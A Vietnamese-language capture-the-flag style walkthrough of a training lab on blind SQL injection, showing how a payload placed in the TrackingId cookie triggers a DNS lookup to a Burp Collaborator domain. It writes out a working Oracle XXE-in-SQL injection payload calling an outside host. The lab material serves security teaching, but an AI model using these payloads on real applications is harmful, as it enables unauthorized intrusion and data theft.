




# **Lab: Blind SQL injection with out-of-band interaction**

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.  
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.  
> To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

# **Solution**

Sau khi tải lại trang, ta có TrackingId trong cookie:

```
Cookie: TrackingId=UGb4X7Ro9ExswzYn; session=MAGhyCUTiO4LpcJ3blfbgKUZlbnSvWBG
```

Tiếp theo mở BurpsuitePro (Burp Collaborator chỉ hoạt động trên phiên bản pro).

Mở Burp Collaborator, chọn start để tạo một Burp Collaborator Subdomain. Và copy subdomain vừa tạo.  


Gửi một request chứa `TrackingId` tới Repeater.  
Chúng ta có cheatsheet sau:  


Và có subdomain: `w30oltv5s0z7cg63u7ly9snopfv6jy7n.oastify.com`

Thay subdomain vào mẫu truy vấn:

```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http:/w30oltv5s0z7cg63u7ly9snopfv6jy7n.oastify.com/"> %remote;]>'),'/l') FROM dual
```

Chỉnh sửa cho phù hợp để ghép với câu truy vấn ứng dụng:

```
' || SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http:/w30oltv5s0z7cg63u7ly9snopfv6jy7n.oastify.com/"> %remote;]>'),'/l') FROM dual || '
```

Thêm vào `TrackingId` và encode rồi gửi:


Quay lại trang `Burp Collaborator`. Nếu không thấy tự động Pull thì bấm `Pull now` kết quả về:  


Done~~
